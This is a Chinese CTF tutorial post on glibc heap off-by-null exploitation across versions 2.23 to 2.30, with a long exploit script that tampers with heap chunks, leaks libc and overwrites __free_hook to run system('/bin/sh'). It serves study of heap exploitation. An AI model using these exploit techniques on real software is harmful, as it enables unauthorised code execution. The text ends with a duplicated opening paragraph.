



# [原创]新人PWN堆Heap总结off-by-null专场(三)

哎，水平还是太差，望师傅们斧正。
# 前言
off-by-null是堆中的常见漏洞，很多时候都是结合堆布局来进行利用的。这里结合原理解析、不同版本和条件的off-by-null以及常见的漏洞条件做个总结。
# 一、原理解析
主要发生在`\_int\_free`的unlink中：
```c
//2.23 when size>global\_max\_fast
/\* consolidate backward \*/
if (!prev\_inuse(p)) {
prevsize = p->prev\_size;
size += prevsize;
p = chunk\_at\_offset(p, -((long) prevsize));
unlink(av, p, bck, fwd);
}
if (nextchunk != av->top) {
/\* get and clear inuse bit \*/
nextinuse = inuse\_bit\_at\_offset(nextchunk, nextsize);
/\* consolidate forward \*/
if (!nextinuse) {
unlink(av, nextchunk, bck, fwd);
size += nextsize;
}
/\* Take a chunk off a bin list \*/
#define unlink(AV, P, BK, FD) {
FD = P->fd;
BK = P->bk;
if (\_\_builtin\_expect (FD->bk != P || BK->fd != P, 0))
malloc\_printerr (check\_action, "corrupted double-linked list", P, AV);
else {
FD->bk = BK;
BK->fd = FD;
if (!in\_smallbin\_range (P->size)
&& \_\_builtin\_expect (P->fd\_nextsize != NULL, 0))
{
if (\_\_builtin\_expect (P->fd\_nextsize->bk\_nextsize != P, 0)
|| \_\_builtin\_expect (P->bk\_nextsize->fd\_nextsize != P, 0))
malloc\_printerr (check\_action,
"corrupted double-linked list (not small)",
P, AV);
if (FD->fd\_nextsize == NULL) {
if (P->fd\_nextsize == P)
FD->fd\_nextsize = FD->bk\_nextsize = FD;
else {
FD->fd\_nextsize = P->fd\_nextsize;
FD->bk\_nextsize = P->bk\_nextsize;
P->fd\_nextsize->bk\_nextsize = FD;
P->bk\_nextsize->fd\_nextsize = FD;
}
} else {
P->fd\_nextsize->bk\_nextsize = P->bk\_nextsize;
P->bk\_nextsize->fd\_nextsize = P->fd\_nextsize;
}
}
}
}
```
为了方便，依据物理地址相邻来命名如下：

即当size大于global\_max\_fast且不是mmap出来的chunk时，就会进入判断。所以这里我们进行释放用的chunk的大小就必须要大于global\_max\_fast才行，否则就是改掉了pre\_inuse位也是直接进入fastbin，不会进入判断的。
+ 先依据当前chunk(chunkP)的pre\_inuse位来判断前一个chunk(preChunk)是否处于释放状态，是则进入unlink，将前一个chunk取出
+ 然后判断下一个chunk(nextChunk)是否是top\_chunk，是则直接与top\_chunk合并。
+ 若nextChunk不为top\_chunk，再判断下一个Chunk的再下一个chunk的pre\_inuse位来判断nextChunk是否处于释放状态，若是则进入unlink。
然后unlink中就不细说，就是双向循环链表解链的过程，依据fd和bk来查找并解链，但是我们的off-by-null通常不会涉及到nextsize位的使用，所以基本不用看后面的。需要注意的是，由于这里会检查，即：
if (\_\_builtin\_expect (FD->bk != P || BK->fd != P, 0))
malloc\_printerr (check\_action, "corrupted double-linked list", P, AV);
所以我们需要将进入unlink的chunk的fd和bk来进行伪造或者干脆直接释放使其直接进入unsortedbin中完成双向链表的加持。这里先讲放入unsortedbin中来获取fd和bk的方法，伪造的方法一般用在2.29及以上的高版本中，因为那时候的unlink加入了关于size位的检查，不能简单得伪造fd和bk。
其次，这里还需要明白一个寻找chunk的原理。
+ 寻找preChunk：preChunk\_addr = chunkP\_addr - chunkP->pre\_size
+ 寻找nextChunk：nextChunk\_addr = chunkP\_addr + chunkP->size
即以下源码，这个一直没有变化过：
```c
/\* Ptr to previous physical malloc\_chunk. Only valid if !prev\_inuse (P). \*/
#define prev\_chunk(p) ((mchunkptr) (((char \*) (p)) - prev\_size (p)))
/\* Ptr to next physical malloc\_chunk. \*/
#define next\_chunk(p) ((mchunkptr) (((char \*) (p)) + chunksize (p)))
/\* Get size, ignoring use bits \*/
#define chunksize(p) (chunksize\_nomask (p) & ~(SIZE\_BITS))
/\* extract p's inuse bit \*/
#define inuse(p) \
((((mchunkptr) (((char \*) (p)) + chunksize (p)))->mchunk\_size) & PREV\_INUSE)
```
所以，如果我们可以伪造pre\_size和in\_use位，就能触发向上任意寻找一个满足fd和bk为双向链表的chunk，从而将中间所有的chunk都一并合并为一个Chunk释放掉。(向下合并也可以的，不过一般不常使用)

这里就是通过释放chunkP，依据pre\_size向上寻找到原本已经在unsortedbin中的preChunk，其FD和BK已经组成双向循环链表，可以绕过检查，所以释放ChunkP之后preChunk+OverlapChunk+chunkP都进入到unsortedbin中。但是OverlapChunk本身其实并没有被释放，我们再从unsortedbin中申请切割出preChunk大小的chunk，再申请就可以得到OverlapChunk。这样我们就有两个指针都指向OverlapChunk，从而伪造出UAF，之后我们就可以通过OverlapChunk来getshell了。
## 1.常用布局
```python
add\_malloc(0xf8,'\x00'\*0xf8) #0x1
add\_malloc(0x68,'\x00'\*0x68) #0x2
add\_malloc(0xf8,'\x00'\*0xf8) #0x3
add\_malloc(0x68,'\x00'\*0x68) #0x4
free(0x1)
edit(0x2,0x70,'\x00'\*0x60+p64(0x70+0x100)+p16(0x100))
free(0x3)
```
off-by-null在调试中不太好搞，所以我就借用堆溢出来假设存在off-by-null，将chunk3原本的size位0x101通过off-by-null变成0x100即可。
## 2.注意事项
### (1)顺序
此外需要注意的是，需要先释放chunk1，再溢出修改chunk3。不然如果先修改chunk3，那么释放chunk1的时候，寻找chunk1的nextChunk即chunk2，判断chunk2是否处于释放状态时，会找到chunk3，依据pre\_inuse位发现chunk2已经处于释放状态，那么尝试进入unlink合并，但是这里的chunk2的fd和bk并没有组成双向循环链表，所以会出错。
### (2)size位的设置
+ 0x100：这里注意到上面的布局中size位为0x100和0x70，这里的0x100就是为了通过off-by-null将0x101变成0x100设置的。当然设置为0x201，0x301通常也是一样的。
+ 0x70：这里就通常是为了方便打fastbin attack，从\_malloc\_hook处构造0x7f字节错位用的。
# 二、更新换代
## 1.Glibc2.27
这里也不是特指2.27，而指的是Glibc2.29以下的存在tcache的版本，这类版本通常需要填充满tcache再进行释放，也不需要多讲。
## 2.Glibc2.29
从这个版本开始，off-by-null由于加入的检查，引入了好几种全新的利用方式。
### (1)\_int\_free中的变化
```c
if (!prev\_inuse(p)) {
prevsize = prev\_size (p);
size += prevsize;
p = chunk\_at\_offset(p, -((long) prevsize));
if (\_\_glibc\_unlikely (chunksize(p) != prevsize))
malloc\_printerr ("corrupted size vs. prev\_size while consolidating");
unlink\_chunk (av, p);
}
```
加入的检查是
```c
if (\_\_glibc\_unlikely (chunksize(p) != prevsize))
malloc\_printerr ("corrupted size vs. prev\_size while consolidating");
```
这里的p因为`p = chunk\_at\_offset(p, -((long) prevsize));`已经变成了preChunk。所以这里就是检查preChunk->size是否等于chunkP->pre\_size。按照上面那张图的逻辑，preChunk的size为0x101，chunkP的pre\_size为0x170，两个不等于，根本就无法进入unlink中，直接崩掉。

### (2)unlink变化
首先unlink从宏定义变成了全局函数定义，名字也从unlink变成了unlink\_chunk，但实际内容没有变太多，只是加入了一些检查：
```c
/\* Take a chunk off a bin list. \*/
static void
unlink\_chunk (mstate av, mchunkptr p)
{
if (chunksize (p) != prev\_size (next\_chunk (p)))
malloc\_printerr ("corrupted size vs. prev\_size");
mchunkptr fd = p->fd;
mchunkptr bk = p->bk;
if (\_\_builtin\_expect (fd->bk != p || bk->fd != p, 0))
malloc\_printerr ("corrupted double-linked list");
fd->bk = bk;
bk->fd = fd;
if (!in\_smallbin\_range (chunksize\_nomask (p)) && p->fd\_nextsize != NULL)
{
if (p->fd\_nextsize->bk\_nextsize != p
|| p->bk\_nextsize->fd\_nextsize != p)
malloc\_printerr ("corrupted double-linked list (not small)");
if (fd->fd\_nextsize == NULL)
{
if (p->fd\_nextsize == p)
fd->fd\_nextsize = fd->bk\_nextsize = fd;
else
{
fd->fd\_nextsize = p->fd\_nextsize;
fd->bk\_nextsize = p->bk\_nextsize;
p->fd\_nextsize->bk\_nextsize = fd;
p->bk\_nextsize->fd\_nextsize = fd;
}
}
else
{
p->fd\_nextsize->bk\_nextsize = p->bk\_nextsize;
p->bk\_nextsize->fd\_nextsize = p->fd\_nextsize;
}
}
}
```
加入的检查，就加了一个if语句：
```c
if (chunksize (p) != prev\_size (next\_chunk (p)))
malloc\_printerr ("corrupted size vs. prev\_size");
```
即在unlink时会检查nextChunk的pre\_size是否等于chunkP的size。
按照之前那张图的逻辑，进入unlink中时preChunk的size为0x100，preChunk的nextChunk，即overlapChunk的pre\_size为0x100，相等，可以满足要求，没啥大用，但是之后提出的绕过手段也是需要绕过这个检查的。

▲后面的更高版本，到2.33都没变化，也就不提了。只是2.32中的指针异或可能需要注意一下，但是之后的绕过手段一般是基于unsortedbin，smallbin，largebin来绕过，不存在指针异或的情况，所以也不用太在意。
# 三、高版本花式绕过
这里将的是2.29及以上的版本
## 第一种
这个之前写过，参考这篇文章：
<a href="elink@cf2K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.">2.29下的off-by-null | PIG-007</a>
或者t1an5g师傅的文章：
https://bbs.pediy.com/thread-257901.htm#msg\_header\_h2\_2
当然ex师傅的原始解析也很好：
<mark class="encrypted">3f9K9s2c8@1M7q4)9K6b7g2)9J5c8W2)9J5c8X3u0D9L8$3N6Q4x3X3g2W2L8$3&6W2N6#2)9J5k6h3y4F1i4K6u0r3j5i4u0U0K9r3W2$3k6i4y4Q4x3V1j5I4x3U0x3K6</mark>
但是这个需要爆破半个字节，也不能对size做太多的限制，且chunk需要申请大概有24个，所以看个人需要。
## 第二种
这个也写过，参考这篇：
<a href="elink@0ceK9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2)9J5k6o6u0Q4x3X3f1K6x3W2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.">2.29-2.32下的off-by-null | PIG-007</a>
当然我也是参考WJH师傅的：
<a href="elink@e98K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6y4U0l9%4z5l9`.`.">glibc 2.29-2.32 off by null bypass - 安全客，安全资讯平台 (anquanke.com)</a>
这个不需要爆破，但是对size的限制不能太严格，需要largebin的size。
## 第三种
这个还没写过总结，现在来，不过先贴下文章，init-0师傅的：
<a href="elink@2f4K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6x3e0b7I4z5q4)9J5x3$3R3K6i4K6u0V1z5l9`.`.">堆漏洞利用（2.29以上glibc,off-by-null, 加了申请size限制） - 安全客，安全资讯平台 (anquanke.com)</a>
这种方法在size限制下也可以使用，文章中的限制是0xe8的堆块，真是将堆布局用到极高的水平。
▲先看最终的布局效果：

这样就能通过两项检查了：
```c
//\_int\_free中
if (\_\_glibc\_unlikely (chunksize(p) != prevsize))
malloc\_printerr ("corrupted size vs. prev\_size while consolidating");
//unlink中
if (chunksize (p) != prev\_size (next\_chunk (p)))
malloc\_printerr ("corrupted size vs. prev\_size");
```
### (1)前置布局：
由于init-0师傅的题目中，申请chunk是从0x3a0开始的，所以这里我就也以0x3a0开始：
```python
#get layout to let chunk0\_addr = 0x\*\*\*\*3a0
claim(0x88)# 0-6 #1-7
claim(0x98)# 7-13 #8-14
claim(0xa8)# 14-20 #15-21
claim(0xb8)# 21-27 #22-28
claim(0xc8)# 28-34 #29-35
claim(0xd8)# 35-41 #36-42
claim(0xe8)# 42-48 #43-49
#--------------------------
add\_malloc(0x98,'\x00')# 49 #50
add\_malloc(0x98,'\x00')# 50 #51 0x\*\*\*\*f900
add\_malloc(0x18,'\x00')# 51 #52 0x\*\*\*\*f9a0
add\_malloc(0xa8,'\x00')# 52 0 #53 0x\*\*\*\*f9c0
add\_malloc(0xb8,'\x00')# 53 1 #54 0x\*\*\*\*fa70
add\_malloc(0xd8,'\x00')# 54 2 #55 0x\*\*\*\*fb30
add\_malloc(0xd8,'\x00')# 55 #56
add\_malloc(0xe8,'\x00')# 56 3 #57 0x\*\*\*\*fcf0
#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的
fakeChunk\_nextChunk\_preSize = p64(0x200) + p64(0xe0)
edit(57,0x10,fakeChunk\_nextChunk\_preSize)# 56 #57
add\_malloc(0xe8,'\x00')# 57 4 #58 0x\*\*\*\*fde0
add\_malloc(0x98,'\x00')# 58 #59
add\_malloc(0xe8,'\x00')# 59 #60 0x\*\*\*\*ff70
add\_malloc(0x18,'\x00')# 60 #61
```
### (2)填充tcache
并且将要利用的Chunk释放合并进入unsortedbin
```python
#free 0~48 #1~49
#-------------------------
#--tcache
for i in range(0,7): #0x88
free(i+1)
for i in range(14,21):#0xa8
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
for i in range(35,42):#0xd8
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#--tcache
for i in range(52,57): #52~56 #53~57 merge into unsortedbin
free(i+1)
```


### (3)重构53~57结构为97~101
```python
#---------------------------
# empty tcache
claim(0x88) #62~68
claim(0xa8) #69~75
claim(0xb8) #76~82
claim(0xd8) #83~89
claim(0xe8) #90~96
#---------------------------
#---------------------------------------------------------------- 上面是一个大的unsorted bin
#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配
add\_malloc(0x98,'\x00')# 52 #97 #0x\*\*\*\*9c0
add\_malloc(0x98,'\x00')# 53 #98 #0x\*\*\*\*A60
fake\_chunk\_size = 0x98 \* "a" + p16(0x200)
#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200
#changing largebinChunk\_size will not cause abort
edit(98,0x98+0x2,fake\_chunk\_size)#53 #98
add\_malloc(0x88,'\x00')#54 #99 #0x\*\*\*\*B00
add\_malloc(0x88,'\x00')#55 #100 #0x\*\*\*\*B90
add\_malloc(0xd8,'\x00')#56 #101 #0x\*\*\*\*C70
```
重构之后如下

那么实际上其实原先的0x420被申请了0x340，还有一部分0xe0没有被申请出来。

### (4)构造preChunk的fd和bk
```python
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(0,7):#0x88
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#------tcache
free(51)#0x98 #50 #51 #0x\*\*\*\*f900
#let 99->fd = chunk51\_addr(0x\*\*\*\*f900)
free(99)#0x88 #54 #99
#let 99->bk = chunk60\_addr(0x\*\*\*\*ff70)
free(60)#0xe8 #59 #60 #0x\*\*\*\*ff70
```

### (5)再重构97~101为97->124->132->134
```python
free(98)#0x98 #53 #98
#---------------add back
claim(0x88) #102~108
claim(0x98) #109~115
claim(0xe8) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add\_malloc(0xd8,'\x00')# 0x32 #123 0x\*\*\*\*ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add\_malloc(0xb8,'\x00')# 0x35 #124 0x\*\*\*\*fa60
for i in range(0,7):#0x88
free(i+1)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(100) #55 #100
claim(0x88) #125~131
#切割0x101的块，获得0xb8大小的0x\*\*\*\*fb20，方便与0x\*\*\*\*f900的块放入同一个unsortebin中
add\_malloc(0xb8,'\x00')#0x36 #132 0x\*\*\*\*fb20
add\_malloc(0x98,'\x00')#0x37 #133 0x\*\*\*\*f900
add\_malloc(0x38,'\x00')#0x3b #134 0x\*\*\*\*fbe0
```
重构之后如下

### (6)修复FD->bk和BK->fd
```python
#------tcache
for i in range(42,49):#0xe8
free(i+1)
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
#let 133->bk = chunk132\_addr(0x\*\*\*\*f900->bk = 0x\*\*\*\*fb20)
free(133) #0x37 #133 0x\*\*\*\*f900
free(132) #0x36 #132 0x\*\*\*\*fb20
#let 123->fd = chunk132\_addr(0x\*\*\*\*ff70->bk = 0x\*\*\*\*fb20)
free(123) #0x32 #123 0x\*\*\*\*ff70
```
### (7)再重构为97->124->157->134
方便将`0x\*\*\*\*ff70`和`0x\*\*\*\*f900`的对于fd,bk进行off-by-null，使得0xb20变为0xb00。
```python
free(59) #58 #59 0x\*\*\*\*fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)
claim(0x98) #135~141
claim(0xb8) #142~148
claim(0xe8) #149~155
add\_malloc(0xc8,'\x00') #0x32 #156 0x\*\*\*\*fed0
add\_malloc(0xb8,'\x00') #0x36 #157 0x\*\*\*\*fb20
add\_malloc(0xb8,'\x00') #0x37 #158 0x\*\*\*\*ffa0
add\_malloc(0x98,'\x00') #58 #159 0x\*\*\*\*f900
#--top\_chunk
add\_malloc(0x98,'\x00') #0x3d #160
add\_malloc(0x98,'\x00') #0x3e #161
add\_malloc(0x18,'\x00') #0x3f #162
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
free(161) #0x98 #0x3e #161
free(159) #0x98 #58 #159 0x\*\*\*\*f900
free(157) #0xb8 #0x36 #157
free(50) #0x98 #49 #50 0x\*\*\*\*f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x\*\*\*\*f860 —▸ 0x\*\*\*\*fb20 —▸ 0x\*\*\*\*0120
claim(0xb8) #163~169
claim(0x98) #170~176
#----------------------------------------------------
add\_malloc(0xb8,'\x00') #49 #177
add\_malloc(0x98,'\x00') #0x36 #178
#切割0x140的块
add\_malloc(0xc8,'\x00')#0x3a #179 0x\*\*\*\*f860
add\_malloc(0x68,'\x00')#0x3e #180
```
现在就可以通过chunk179来将`0x\*\*\*\*f900`中的bk给改掉。
通过chunk156来将`0x\*\*\*\*ff70`中的fd给改掉。
### (8)利用off-by-null得到最终布局
```python
partial\_null\_write = 0x98\*'b'
partial\_null\_write += p64(0xf1)
edit(156,0x98+0x8+0x1,partial\_null\_write+'\x00') #0x32 #156
partial\_null\_write = 0xa8\*'c'
edit(179,0xa8+0x1,partial\_null\_write + '\x00') #0x3a #179
#伪造pre\_size
fake\_chunk\_size = 0x98\*'d'
fake\_chunk\_size += p64(0x2e1)
edit(124,0x98+0x8,fake\_chunk\_size) #0x35 #124
```
### (9)触发off-by-null
```python
for i in range(42,49):#0xe8
free(i+1)
free(58)
```
### ▲总结
①利用unsortedbin成链机制，合并unsortedbin中的chunk并且切割，这样就能保留住FD和BK了。
②再利用unsortedbin成链和切割的机制，就能修改到对应preChunk的FD和BK了，修改最后一个字节为\x00即可。
③由于2.29之后的添加的两项检查，所以需要注意的是伪造unsortedbinChunk的size时，也要伪造nextChunk的pre\_size和pre\_inuse位。
④太他丫的麻烦了，有这时间布局还不如肝其他题.....
再贴个汇总的exp，基于libc2.30，自己的题目：
```python
#有size限制，对应索引往后移即可
add\_malloc(0x1000-0x290+0x3000-0x8+0x3a0,'PIG007NB')
#old #new
#get layout to let chunk0\_addr = 0x\*\*\*\*3a0
claim(0x88)# 0-6 #1-7
claim(0x98)# 7-13 #8-14
claim(0xa8)# 14-20 #15-21
claim(0xb8)# 21-27 #22-28
claim(0xc8)# 28-34 #29-35
claim(0xd8)# 35-41 #36-42
claim(0xe8)# 42-48 #43-49
#--------------------------
add\_malloc(0x98,'\x00')# 49 #50
add\_malloc(0x98,'\x00')# 50 #51 0x\*\*\*\*f900
add\_malloc(0x18,'\x00')# 51 #52 0x\*\*\*\*f9a0
add\_malloc(0xa8,'\x00')# 52 0 #53 0x\*\*\*\*f9c0
add\_malloc(0xb8,'\x00')# 53 1 #54 0x\*\*\*\*fa70
add\_malloc(0xd8,'\x00')# 54 2 #55 0x\*\*\*\*fb30
add\_malloc(0xd8,'\x00')# 55 #56
add\_malloc(0xe8,'\x00')# 56 3 #57 0x\*\*\*\*fcf0
#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的
fakeChunk\_nextChunk\_preSize = p64(0x200) + p64(0xe0)
edit(57,0x10,fakeChunk\_nextChunk\_preSize)# 56 #57
add\_malloc(0xe8,'\x00')# 57 4 #58 0x\*\*\*\*fde0
add\_malloc(0x98,'\x00')# 58 #59
add\_malloc(0xe8,'\x00')# 59 #60 0x\*\*\*\*ff70
add\_malloc(0x18,'\x00')# 60 #61
#free 0~48 #1~49
#-------------------------
#--tcache
for i in range(0,7): #0x88
free(i+1)
for i in range(14,21):#0xa8
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
for i in range(35,42):#0xd8
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#--tcache
for i in range(52,57): #52~56 #53~57 merge into unsortedbin
free(i+1)
#---------------------------
# empty tcache
claim(0x88) #62~68
claim(0xa8) #69~75
claim(0xb8) #76~82
claim(0xd8) #83~89
claim(0xe8) #90~96
#---------------------------
#---------------------------------------------------------------- 上面是一个大的unsorted bin
#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配
add\_malloc(0x98,'\x00')# 52 #97 #0x\*\*\*\*9c0
add\_malloc(0x98,'\x00')# 53 #98 #0x\*\*\*\*A60
fake\_chunk\_size = 0x98 \* "a" + p16(0x200)
#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200
#changing largebinChunk\_size will not cause abort
edit(98,0x98+0x2,fake\_chunk\_size)#53 #98
add\_malloc(0x88,'\x00')#54 #99 #0x\*\*\*\*B00
add\_malloc(0x88,'\x00')#55 #100 #0x\*\*\*\*B90
add\_malloc(0xd8,'\x00')#56 #101 #0x\*\*\*\*C70
#构造preChunk的fd和bk------------------------
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(0,7):#0x88
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#------tcache
free(51)#0x98 #50 #51 #0x\*\*\*\*f900
#let 99->fd = chunk51\_addr(0x\*\*\*\*f900)
free(99)#0x88 #54 #99
#let 99->bk = chunk60\_addr(0x\*\*\*\*ff70)
free(60)#0xe8 #59 #60 #0x\*\*\*\*ff70
#构造preChunk的fd和bk------------------------
free(98)#0x98 #53 #98
#---------------add back
claim(0x88) #102~108
claim(0x98) #109~115
claim(0xe8) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add\_malloc(0xd8,'\x00')# 0x32 #123 0x\*\*\*\*ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add\_malloc(0xb8,'\x00')# 0x35 #124 0x\*\*\*\*fa60
for i in range(0,7):#0x88
free(i+1)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(100) #55 #100
claim(0x88) #125~131
#切割0x101的块，获得0xb8大小的0x\*\*\*\*fb20，方便与0x\*\*\*\*f900的块放入同一个unsortebin中
add\_malloc(0xb8,'\x00')#0x36 #132 0x\*\*\*\*fb20
add\_malloc(0x98,'\x00')#0x37 #133 0x\*\*\*\*f900
add\_malloc(0x38,'\x00')#0x3b #134 0x\*\*\*\*fbe0
#修复FD->bk和BK->fd-----------------------------
#------tcache
for i in range(42,49):#0xe8
free(i+1)
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
#let 133->bk = chunk132\_addr(0x\*\*\*\*f900->bk = 0x\*\*\*\*fb20)
free(133) #0x37 #133 0x\*\*\*\*f900
free(132) #0x36 #132 0x\*\*\*\*fb20
#let 123->fd = chunk132\_addr(0x\*\*\*\*ff70->bk = 0x\*\*\*\*fb20)
free(123) #0x32 #123 0x\*\*\*\*ff70
#修复FD->bk和BK->fd-----------------------------
free(59) #58 #59 0x\*\*\*\*fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)
claim(0x98) #135~141
claim(0xb8) #142~148
claim(0xe8) #149~155
add\_malloc(0xc8,'\x00') #0x32 #156 0x\*\*\*\*fed0
add\_malloc(0xb8,'\x00') #0x36 #157 0x\*\*\*\*fb20
add\_malloc(0xb8,'\x00') #0x37 #158 0x\*\*\*\*ffa0
add\_malloc(0x98,'\x00') #58 #159 0x\*\*\*\*f900
#--top\_chunk
add\_malloc(0x98,'\x00') #0x3d #160
add\_malloc(0x98,'\x00') #0x3e #161
add\_malloc(0x18,'\x00') #0x3f #162
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
free(161) #0x98 #0x3e #161
free(159) #0x98 #58 #159 0x\*\*\*\*f900
free(157) #0xb8 #0x36 #157
free(50) #0x98 #49 #50 0x\*\*\*\*f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x\*\*\*\*f860 —▸ 0x\*\*\*\*fb20 —▸ 0x\*\*\*\*0120
claim(0xb8) #163~169
claim(0x98) #170~176
#----------------------------------------------------
add\_malloc(0xb8,'\x00') #49 #177
add\_malloc(0x98,'\x00') #0x36 #178
#切割0x140的块
add\_malloc(0xc8,'\x00')#0x3a #179 0x\*\*\*\*f860
add\_malloc(0x68,'\x00')#0x3e #180
partial\_null\_write = 0x98\*'b'
partial\_null\_write += p64(0xf1)
edit(156,0x98+0x8+0x1,partial\_null\_write+'\x00') #0x32 #156
partial\_null\_write = 0xa8\*'c'
edit(179,0xa8+0x1,partial\_null\_write + '\x00') #0x3a #179
#伪造pre\_size
fake\_chunk\_size = 0x98\*'d'
fake\_chunk\_size += p64(0x2e1)
edit(124,0x98+0x8,fake\_chunk\_size) #0x35 #124
for i in range(42,49):#0xe8
free(i+1)
free(58)
#pull-down the unsortedbinChunk to chunk134 and leak main\_arena
edit(134,0x8,"e"\*8) #0x3b #134
add\_malloc(0xd8,'\x00') #181
show(134)
libc\_base = u64Leakbase(unsortedBinIdx + libc.sym['\_\_malloc\_hook'] + 0x10)
lg('libc\_base',libc\_base)
#---------------------------------------------------------------------------------
claim(0xe8) #182~188
add\_malloc(0xe8,'\x00') #0x40 #189
free(44) #0x2b #44
free(134) #0x3b #134
edit(189,0x8,p64(libc\_base+libc.sym['\_\_free\_hook']-8)) #0x40 #189
add\_malloc(0xe8,'\x00') #190
add\_malloc(0xe8,'\x00') #191
edit(191,0x10,"/bin/sh\x00"+p64(libc\_base+libc.sym['system'])) #191
free(191)
it()
#--------------------------------------------------------------
```

哎，水平还是太差，望师傅们斧正。

# 前言

off-by-null是堆中的常见漏洞，很多时候都是结合堆布局来进行利用的。这里结合原理解析、不同版本和条件的off-by-null以及常见的漏洞条件做个总结。

# 一、原理解析

主要发生在`_int_free`的unlink中：

|  |  |
| --- | --- |
